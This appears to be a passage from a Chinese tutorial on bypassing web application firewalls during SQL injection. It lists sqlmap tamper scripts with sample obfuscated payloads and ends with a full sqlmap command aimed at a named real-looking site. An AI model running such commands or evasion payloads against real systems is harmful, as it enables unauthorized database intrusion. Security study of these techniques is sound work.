 28 randomcomments.py#用/**/分割sql关键字；Example:‘INSERT’ becomes ‘IN//S//ERT’



```

```

29 charunicodeencode.py#ASP，ASP.NET中字符串 unicode 编码；



```

```

30 securesphere.py#追加特制的字符串；Example: ('1 AND 1=1') "1 AND 1=1 and '0having'='0having'"



```

```

31 versionedmorekeywords.py#MySQL >= 5.1.13注释绕过



```

```

32 space2comment.py#Replaces space character (‘ ‘) with comments ‘/**/’



```

```

33 halfversionedmorekeywords.py#MySQL < 5.1中关键字前加注释



```

```

 

**0x04** 脚本参数组合策略绕过



```

```

***4\***|***3\*****1 mysql绕过：**



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 -delay=3.5 --tamper=space2hash.py,modsecurityversioned.py

